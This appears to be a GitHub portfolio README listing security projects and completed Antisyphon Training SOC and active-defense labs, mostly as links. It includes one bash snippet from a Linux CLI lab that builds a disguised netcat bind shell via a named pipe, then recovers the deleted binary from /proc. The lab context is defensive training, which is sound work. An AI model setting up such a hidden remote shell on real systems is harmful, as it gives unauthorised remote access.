 # All Projects

[Vulnerability Management Tenable](/Vulnerability%20Management%20Tenable)

[Password Strength Checker and Password Generator](/Password)

[EXIF data](/EXIF%20data)

[Subdomain Enumeration and Reconnaissance](/Subdomain%20Enumerator)

[Bypass Windows Login Screen](Bypass%20Windows%20Login%20Screen)

[Linux Login Bypass and Prevention](/Linux%20Login%20Bypass%20and%20Prevention)

[Caesar Cipher Encryptor and Decryptor](/Caesar%20Cipher%20Encryptor%20and%20Decryptor)

[LSB Steganography](/LSB%20Steganography)

[Linkedin Automated Messaging](/Linkedin%20Automated%20Messaging)

[Password Hash Cracker](/Password%20Hash%20Cracker)



## SOC Core Skills with John Strand by Antisyphon Training (Successfully finished practice labs)

  - [Linux CLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md)
  
```bash
mv /nc ./notnetcat
mknod backpipe p
/bin/bash backpipe 0<backpipe | notnetcat -l 2222 1>backpipe

#Other Terminal
nc 10.10.104.64 2222
rm ./notnetcat

netcat gone but still works
cd /proc/11625
cp ./exe /tmp/backupexe
cd /tmp
strings ./backupexe | less
```

  - [Memory Analysis (Volatility)](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Memory/MemoryAnalysis(Volatility).md)
  - [TCPDump](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/TCPDump/TCPDump.md)
  - [Web Log Review](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WebLogReview/WebLogReview.md)
  - [WindowsCLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WindowsCLI/WindowsCLI.md)
  - [Wireshark](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Wireshark/Wireshark.md)
  - [RITA](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/RITA/RITA.md)
  - [Nessus](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/nessus/Nessus.md)
  - [Web Testing](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WebTesting/WebTesting.md)
  - [DeepBlueCLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/deepbluecli/DeepBlueCLI.md)
  - [Domain Log Review](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/DomainLogReview/DomainLogReview.md)
  - [Velociraptor](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Velociraptor/Velociraptor.md)
  - [Firewall Log Review](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/FirewallLog/FirewallLog.md)
  - [Elk In The Cloud](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/md/elk_in_the_cloud.md)
  - [Elastic Agent](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/md/elastic_agent.md)
  - [Sysmon in ELK](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/md/sysmon_logs.md)
  - [Lima Charlie](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/limacharlie/limacharlie.md)
  - [Lima Charlie & Atomic Red](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/LCmeetsAtomicRed/LCAR.md)
  - [AC Hunter CE](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/ACHCE/ACHunterCE.md)
  - [Hunting DCSync, Sharepoint and Kerberoasting](https://github.com/strandjs/IntroLabs/tree/master/IntroClassFiles/Tools/IntroClass/PoisoningtheWellIR-main)

## Getting Started in Security with BHIS and MITRE ATT&CK with John Strand by Antisyphon Training (Successfully finished practice labs)

 - [Applocker](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/AppLocker/AppLocker.md)
 - [Atomic RedTeam and Bluespawn](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/bluespawn/Bluespawn.md)
 - [DeepBlueCLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/deepbluecli/DeepBlueCLI.md)
 - [Nessus](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/nessus/Nessus.md)
 - [Host Firewalls and Nmap](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Nmap/Nmap.md)
 - [Password Cracking](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/PasswordCracking/PasswordCracking.md)
 - [Password Spraying](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/PasswordSpray/PasswordSpray.md)
 - [Responder](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Responder/Responder.md)
 - [RITA and AC Hunter](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/RITA/RITA.md)
 - [Sysmon](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Sysmon/Sysmon.md)
 - [Web Testing](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WebTesting/WebTesting.md)
 - [Falcon](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/falcon.md)
 - [ConnectSecure](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/Connectsecure.md)
 - [Azure IR](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/AZURE-MSP-WRITEUP-main/README.md)
 - [AC Hunter CE](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/ACHCE/ACHunterCE.md)
  
## Active Defense & Cyber Deception With John Strand by Antisyphon Training (Ongoing practice labs)

  - [Spidertrap](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Spidertrap.md)
  - [Cowrie](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Cowrie.md)
  - [Canarytokens](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/canarytokens/Canarytokens.md)
  - [RITA](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/RITA/RITA.md)
  - [Bluespawn](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/bluespawn/Bluespawn.md)
  - [Portspoof](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Portspoof.md)
  - [HoneyBadger](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/HoneyBadger.md)
  - [HoneyShare](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/honeyshare/HoneyShare.md)
  - [HoneyUser](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/honeyuser/honeyuser.md)
  - [AdvancedC2](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/pcap/AdvancedC2PCAPAnalysis.md)
  - [WebHoneypot](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/webhoneypot/webhoneypot.md)
  - [File Audit](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/FileAudit/FileAudit.md)
